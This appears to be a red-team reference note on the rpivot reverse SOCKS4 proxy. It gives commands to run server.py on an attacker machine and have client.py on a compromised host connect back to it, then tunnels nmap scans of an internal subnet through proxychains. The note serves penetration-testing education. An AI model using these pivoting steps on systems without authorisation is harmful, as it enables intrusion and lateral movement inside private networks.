

>[!abstract]+ **Scope**: Revese SOCKS4 proxy using `rpivot`.
## `rpivot`

>[`rpivot`](https://github.com/klsecservices/rpivot) is a reverse SOCKS4 proxy that functions as a reverse dynamic port forwarder.

>[!warning] `rpivot` requires Python `2.6`-`2.7` (unless you're using a Python 3 fork).

>[!warning] `rpivot` is no longer actively maintained.

- `rpivot` is designed for situations where a compromised internal host *can't accept inbound connections* from your attacking machine (for example because it's behind NAT or a firewall), but *can establish outbound connections* to your attacking machine.

- `rpivot` bundles two main scripts:
	- `server.py` — Runs on your attacking machine, accepts the connection from `client.py`, and exposes the local SOCKS4 listener.
	- `client.py` — Runs on the pivot and initiates an outbound connection to `server.py`.

- Once the connection is established, `server.py` exposes a SOCKS4 listener on your attacking machine. Traffic sent to this listener is carried through the `rpivot` connection to `client.py`, which establishes the corresponding connection to the destination from the compromised host.

>[!note]+ Reverse proxy
> - `rpivot` reverses the usual SOCKS deployment model. Normally, the host that provides access to the remote network exposes the SOCKS proxy, and you connect to that proxy as a client. 
> - With `rpivot`, the SOCKS listener is created on your attacking machine; the compromised host runs `client.py` and initiates an _outbound connection_ back to `server.py`. SOCKS traffic is then carried through this connection to the destination from the compromised host.

>[!note] This is similar to `ssh -D`, but the connection is initiated in reverse direction. 

- `client.py` is intentionally lightweight and has no external dependencies beyond a compatible Python interpreter. This means you don't need to transfer the entire tool to the pivot or install additional Python packages; you only need the script itself.

---

- Use `rpivot` specifically when the compromised host has no SSH server or client available (rules out[[sshuttle]], `ssh -D`, and [[Plink]]), and you need a SOCKS proxy into the internal network. The tool is old, but has minimal requirements, which is its main advantage.

>[!warning] A pure-Python implementation is usually slower than compiled tools.

>[!note] See [[SOCKS]] to learn more about SOCKS proxies.
## Using `rpivot`



- Clone the repository to your machine:

```bash
git clone https://github.com/klsecservices/rpivot
```

1. On your attacking machine, start `server.py`:

```bash
python2 server.py --proxy-port 1080 --server-port 4444
```

2. Transfer `client.py` to the pivot (see [[🛠️ Windows file transfers]] or [[🛠️ Linux file transfers]]).

| Option          | Description                                                           |
| :-------------- | :-------------------------------------------------------------------- |
| `--proxy-port`  | Local port the SOCKS4 proxy listens on.                               |
| `--server-port` | Local port the server listens on for the connections from the client. |

3. On the pivot, run `client.py` to connect back to the listener on your machine:

```bash
python client.py --server-ip 10.10.11.11 --server-port 4444
```

4. Make sure `/etc/proxychains.conf` is configured with the same port you're proxy is listening on, and uses SOCKS4 (original `rpivot` doesn't support SOCKS5):

```bash
socks4 127.0.0.1 1080
```

5. Use `proxychains` to relay traffic from local tools through the proxy:

```bash
proxychains nmap -sT -Pn 172.16.5.0/24
```

>[!tip]+
> - Verify the tunnel is working using Netcat (run on your attacking machine):
>```bash
>ss -tlpn
>```

>[!info] `rpivot` doesn't encrypt traffic unless you wrap it in a separate encrypted channel.
## Option reference

>[!note] Flags below reflect the documented options for the original [`klsecservices/rpivot`](https://github.com/klsecservices/rpivot). These may be different if you're using a fork.

- **`server.py`**:

| Option          | Description                                                                                                      |
| :-------------- | :--------------------------------------------------------------------------------------------------------------- |
| `--proxy-port`  | Local port the SOCKS4 proxy listens on.                                                                          |
| `--proxy-ip`    | Local address the SOCKS4 proxy listens on (default: `127.0.0.1`, `localhost`).                                   |
| `--server-port` | Local port the server listens on for the connections from the client.                                            |
| `--server-ip`   | Local IP address the server listens on for the connections from the client (default: `0.0.0.0`, all interfaces). |

- **`client.py`**:

| Option                                 | Description                                                                                                                                                                                                                                                                                |
| :------------------------------------- | :----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| `--server-ip`                          | IP address of the attacking machine running `server.py`.                                                                                                                                                                                                                                   |
| `--server-port`                        | Port on the attacking machine that `server.py` is listening on.                                                                                                                                                                                                                            |
| `--ntlm-proxy-ip`                      | IP address of an intermediate NTLM-authenticated corporate proxy the client must go through to reach the attacking machine. <!-- needs verification: exact flag name and continued support for NTLM-proxy pivoting should be confirmed against the specific fork/Python version in use --> |
| `--ntlm-proxy-port`                    | Port of that intermediate NTLM proxy.                                                                                                                                                                                                                                                      |
| `--domain`, `--username`, `--password` | Credentials for authenticating to the intermediate NTLM proxy.                                                                                                                                                                                                                             |
## References and further reading

- [`rpivot — GitHub`](https://github.com/klsecservices/rpivot)
- [`Rpivot, A Red Teamer's guide to pivoting — Artem Kondratenko`](https://artkond.com/2017/03/23/pivoting-guide/#rpivot)